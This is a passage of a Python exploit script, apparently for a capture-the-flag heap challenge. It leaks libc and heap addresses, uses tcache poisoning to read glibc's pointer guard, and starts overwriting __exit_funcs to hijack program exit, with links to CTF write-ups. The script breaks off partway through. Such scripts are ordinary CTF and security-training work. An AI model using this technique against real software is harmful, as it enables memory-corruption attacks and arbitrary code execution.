 ```python
    # ===============
    # LIBC BASE LEAK
    # ===============
    alloc(0, 0x500)
    alloc(1, 0x10)
    free(0)

    view(0)
    leak = io.recvline().strip()
    main_arena = u64(leak.ljust(8, b'\x00')) 
    libc.address = main_arena - 0x1d1cc0
    ptr_guard_addr = libc.address - 0x2890
    alloc(0, 0x500) # clean bins

    # ===============
    # HEAP BASE LEAK
    # ===============
    alloc(2, 0x10)
    free(1)

    view(1)
    leak = u64(io.recvline().strip().ljust(8, b'\x00'))
    heap = leak << 12
    alloc(2, 0x10)  # clean bins

    # ==========================================================================
    # EXPLOIT REFERENCES: 
    # - https://jackfromeast.site/2023-06/see-ctf-2023-writeup.html#babysheep
    # - https://ctftime.org/writeup/34804
    # - https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
    # - https://ctftime.org/writeup/35951
    # ==========================================================================

    # ===============
    # PTR GUARD LEAK
    # ===============
    # preparing chunk for tcache poisoning
    alloc(3, 0x10)
    alloc(4, 0x10)
    alloc(5, 0x10)
    free(4)
    free(3)

    # poisoning tcache
    target = mangle(heap, ptr_guard_addr)   # address in libc, (Thread Block Control) TBC where it also stores canary
    edit(3, p64(target))

    # arbitrary chunk allocation
    alloc(6, 0x10)
    alloc(7, 0x10) # target

    view(7)
    ptr_guard = u64(io.recvline().strip())

    # =======================
    # OVERWRITE __EXIT_FUNCS
    # =======================
    # preparing chunk for tcache poisoning
    alloc(8, 0x20)
    alloc(9, 0x20)
    alloc(10, 0x20)
    free(9)
```